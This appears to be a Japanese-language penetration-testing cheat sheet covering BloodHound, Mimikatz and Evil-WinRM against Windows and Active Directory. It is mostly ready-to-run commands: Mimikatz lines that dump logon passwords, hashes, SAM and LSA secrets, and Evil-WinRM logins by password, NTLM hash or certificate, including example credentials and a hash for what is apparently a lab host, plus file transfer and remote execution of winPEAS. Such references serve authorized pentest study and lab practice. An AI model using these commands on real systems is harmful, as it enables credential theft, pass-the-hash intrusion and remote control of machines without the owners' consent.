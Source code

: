 # 目次
1. [BloodHound](#bloodhound)
2. [Mimikatz](#mimikatz)
3. [Evil-WinRM](#evil-winrm)

---

## BloodHound

BloodHound ([GitHubリンク](https://github.com/BloodHoundAD/BloodHound)) は、グラフ理論に基づきActive Directory環境の意図しない関係性を明らかにするためのツールです。これにより、低特権ユーザーをDomain Adminsに昇格させるためのパスを発見することができます。詳細については、[Qiita記事](https://qiita.com/v_avenger/items/56ef4ae521af6579c058)をご覧ください。

### 操作手順

1. **ターゲットAD上でSharpHound.exeを実行する**
   - SharpHoundは、Active Directoryの情報を収集し、関係性を解析するツールです。
   
2. **作成された日付入りのzipファイルをKali上に転送する**
   - ファイルを転送するには、`scp`や`ftp`などのツールを使用します。

3. **neo4jの起動**
   - BloodHoundはNeo4jデータベースを使用してグラフデータを管理します。

4. **BloodHoundの起動**
   - Neo4jが起動したら、BloodHoundを実行し、収集したデータをアップロードします。

---

## Mimikatz

Mimikatzは、Windowsシステムのパスワードやハッシュをダンプするためのツールです。

### 基本コマンド

- **パスワードとハッシュのダンプ**

  ```bash
  privilege::debug
  sekurlsa::logonpasswords
  ```

- **SAMとLSAのダンプ**

  ```bash
  lsadump::sam
  lsadump::lsa /patch
  ```

- **ワンライナーでの実行**

  ```bash
  .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
  ```

  ![Mimikatz Example](https://github.com/user-attachments/assets/80751d7c-e8fe-4d86-a690-98426942fdff)

---

## Evil-WinRM

WinRM（Windows Remote Management）は、MicrosoftのWS-Management Protocolの実装です。リモートシェルプログラムとしてEvil-WinRMを使用することで、WinRMサービスが有効なリモートWindowsサーバーに接続できます。

### WinRMサービスの発見

- **ポート5985（平文プロトコル）および5986（暗号化されたプロトコル）のスキャン**

  ```bash
  nmap -p5985,5986 <IP>
  ```

### ログイン方法

- **パスワードでログイン**

  ```bash
  evil-winrm -i <IP> -u user -p pass
  evil-winrm -i <IP> -u user -p pass -S
  ```

- **ハッシュでログイン**

  ```bash
  evil-winrm -i <IP> -u user -H ntlmhash
  ```

- **キーでログイン**

  ```bash
  evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S
  ```

### ログの表示

- **ログ表示**

  ```bash
  evil-winrm -i <IP> -u user -p pass -l
  ```

### ファイルのアップロードとダウンロード

- **ファイルのアップロード**

  ```bash
  upload <file>
  ```

- **ファイルのダウンロード**

  ```bash
  download <file> <filepath-kali>
  ```

- **Kaliから直接ファイルを読み込む**

  ```bash
  evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell
  ```

### Evil-WinRMコマンド

- **コマンドメニューの表示**

  ```bash
  menu
  ```

- **バイナリの実行**

  ```bash
  evil-winrm -i <IP> -u user -p pass -e /opt/privsc
  Invoke-Binary /opt/privsc/winPEASx64.exe
  ```

  ![Evil-WinRM Example](https://github.com/user-attachments/assets/3f9ef784-7508-431b-9423-8619fc59e637)

- **パスワードログイン例**

  ```bash
  evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
  ```

  ![Password Login](https://github.com/user-attachments/assets/7020f363-a6ca-46b9-9f53-37b00809c45a)

- **ハッシュ値によるログイン例**

  ```bash
  evil-winrm -i 10.10.11.14 -u localadmin -H 9aa582783780d1546d62f2d102daefae
  ```

  ![Hash Login](https://github.com/user-attachments/assets/422c7f6c-7d6a-47ae-a374-947c13d39b0b)

  ![Example](https://github.com/user-attachments/assets/764171ae-cf49-4710-95a5-508452d37fe3)
